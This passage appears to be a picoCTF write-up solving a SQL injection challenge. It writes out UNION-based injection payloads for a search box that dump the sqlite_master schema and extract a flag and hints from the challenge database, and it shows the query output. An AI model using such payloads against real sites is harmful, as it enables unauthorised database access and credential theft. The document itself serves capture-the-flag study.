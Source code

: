 So the columns are `type, name, tbl_name, rootpage, sql` for the `sqlite_master` table

## Combine both parts

The contact table union with sqlite_master.

`SELECT city, address, phone FROM contact WHERE city = '' UNION SELECT type,name,tbl_name FROM sqlite_master;--`

The first half part is probably empty (can be further improved) and the whole statement would only show the content of `sqlite_master`.

The payload for the search box will be: `' UNION SELECT type,name,sql FROM sqlite_master;--`

And this is what we get from the website! (Slightly beautified in markdown)

City | Address | Phone
--- | --- | ---
index | sqlite_autoindex_users_1
table |hints |CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)
table | more_table | CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)
table | offices | CREATE TABLE offices (id INTEGER NOT NULL PRIMARY KEY, city TEXT, address TEXT, phone TEXT)
table | users | CREATE TABLE users (name TEXT NOT NULL PRIMARY KEY, password TEXT, id INTEGER)

We know there are `hints` and `more_table` as tables.

`flag` inside `more_table` ... hmm

And this confirms there are no `username` in the `users` table... (But `name` exists...)

---

Input: `' UNION SELECT flag, id, id FROM more_table;--`

`SELECT city, address, phone FROM contact WHERE city = '' UNION SELECT flag, id, id FROM more_table;--`

And we get it.

City | Address | Phone
--- | --- | ---
If you are here, you must have seen it | 2 | 2
picoCTF{injection_flag} | 1 | 1

Finally, check what is in the hints table...

Input: `' UNION SELECT id, id, info FROM hints;--`

`SELECT city, address, phone FROM contact WHERE city = '' UNION SELECT id, id, info FROM hints;--`

City | Address | Phone
--- | --- | ---
1 |1 | Is this the real life?
2 |2 |Is this the real life?
3 |3 | You are close now?

Nevermind.

Can check what is inside `users` table but doesn't matter now.
